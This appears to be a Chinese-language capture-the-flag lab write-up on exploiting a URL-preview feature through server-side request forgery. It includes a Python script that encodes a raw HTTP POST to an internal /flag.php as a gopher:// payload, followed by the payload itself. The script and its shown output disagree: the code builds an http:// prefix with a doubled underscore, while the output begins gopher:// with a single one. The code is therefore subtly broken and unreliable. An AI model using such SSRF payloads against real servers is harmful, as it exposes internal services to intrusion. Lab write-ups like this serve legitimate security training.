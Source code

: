 # lab_previewcard

1. 這題可以看到一個頁面，能夠送入一段網址，然後下面 Preview Card 會顯示內容，Debug 會輸出 Response。

![截圖 2023-01-05 下午2.41.23.png](lab_previewcard%209ee8880bc09545dcb2b9728a4fa14810/%25E6%2588%25AA%25E5%259C%2596_2023-01-05_%25E4%25B8%258B%25E5%258D%25882.41.23.png)

1. 然後我們這邊直接按照提示，使用 gopher 協議去構造一段 URL 來進行 SSRF。直接先使用 python 去將要 Request 的內容寫入 test，然後使用 urlencode(test) ，在 python3 中是 urllib.parse.quote，所以這邊 payload 會是 gopher + 1 byte padding + urlencode(test) 生成的 payload，然後將得到的輸出，在網站中送入，就可以得到 FLAG。

```python
import urllib.parse

test = """POST /flag.php HTTP/1.1
Host: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 14

givemeflag=yes
"""

gopher = "http://127.0.0.1:80/_"

payload = gopher + "_" + urllib.parse.quote(test)
print(payload)
```

```
gopher://127.0.0.1:80/_POST%20/flag.php%20HTTP/1.1%0D%0AHost%3A%20127.0.0.1%0D%0AContent-Type%3A%20application/x-www-form-urlencoded%0D%0AContent-Length%3A%2014%0D%0A%0D%0Agivemeflag%3Dyes%0D%0A
```

![截圖 2023-01-05 下午3.10.16.png](lab_previewcard%209ee8880bc09545dcb2b9728a4fa14810/%25E6%2588%25AA%25E5%259C%2596_2023-01-05_%25E4%25B8%258B%25E5%258D%25883.10.16.png)